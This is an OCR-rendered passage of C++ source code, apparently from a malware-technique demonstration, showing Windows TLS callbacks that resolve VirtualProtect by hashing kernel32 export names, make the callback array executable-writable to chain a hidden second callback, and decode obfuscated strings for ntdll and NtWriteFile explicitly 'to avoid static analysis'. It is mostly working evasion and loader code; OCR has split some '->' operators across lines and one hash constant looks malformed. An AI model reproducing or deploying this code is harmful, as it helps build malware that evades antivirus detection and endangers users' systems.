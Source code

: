 ```cpp 
            DWORD_PTR functionNameVA = (DWORD_PTR)libraryBase + functionNameRVA;
            char* functionName = (char*)functionNameVA;
            DWORD_PTR functionAddressRVA = 0;

            // Calculate Hase 
            DWORD functionNameHash = getHashFromString(functionName);
            DWORD hash = 0x00583c854; // for virtual protect
            if (functionNameHash == hash) {
                functionAddressRVA = addresOfFunctionsRVA[addressOfNameOrdinalsRVA[i]];
                functionAddress = (PDWORD)((DWORD_PTR)libraryBase + functionAddressRVA);
            }
        }

        // Get location for next element in the array of TLS callbacks in memory
        PIMAGE_TLS_CALLBACK* dynamic_callback = (PIMAGE_TLS_CALLBACK*)&tls_callback_func + 1;
        VirtualProtect_t pVirtualProtect = (VirtualProtect_t)functionAddress;
        DWORD old;
        pVirtualProtect(dynamic_callback, sizeof(dynamic_callback), PAGE_EXECUTE_READWRITE, &old);
        // call the second tls function
		*dynamic_callback = (PIMAGE_TLS_CALLBACK)tls_callback_secret(NULL, 1, NULL);
    }
    return NULL;
}


void* tls_callback_secret(PVOID hModule, DWORD dwReason, PVOID pContext){

    if (dwReason == DLL_PROCESS_ATTACH) {

		// ntdll & NtWriteFile obfuscated to avoid static analysis 
        wchar_t myLib[] = { 111, 117, 101, 109, 109 ,1 }; 
        char myModule[] = { 79, 117, 88, 115 ,106 ,117 ,102, 71, 106 ,109 ,102 ,1 }; 

        // Decode 
        for (int i = 0; i < 6; i++) {
            myLib[i] = myLib[i] - 1;
        }
        for (int i = 0; i < 12; i++) {
            myModule[i] = myModule[i] - 1;
        }

        PDWORD functionAddress = (PDWORD)0;
        HMODULE libraryBase = LoadLibraryW(L"kernel32");

        PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)libraryBase;
        PIMAGE_NT_HEADERS imageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)libraryBase + dosHeader-
        >e_lfanew);

        DWORD_PTR exportDirectoryRVA = imageNTHeaders-
        >OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
        PIMAGE_EXPORT_DIRECTORY imageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)
        ((DWORD_PTR)libraryBase + exportDirectoryRVA);

        PDWORD addresOfFunctionsRVA = (PDWORD)((DWORD_PTR)libraryBase + imageExportDirectory-
        >AddressOfFunctions);
        PDWORD addressOfNamesRVA = (PDWORD)((DWORD_PTR)libraryBase + imageExportDirectory-
        >AddressOfNames);
        PWORD addressOfNameOrdinalsRVA = (PWORD)((DWORD_PTR)libraryBase + imageExportDirectory-
        >AddressOfNameOrdinals);

        for (DWORD i = 0; i < imageExportDirectory->NumberOfFunctions; i++) {

            DWORD functionNameRVA = addressOfNamesRVA[i];
```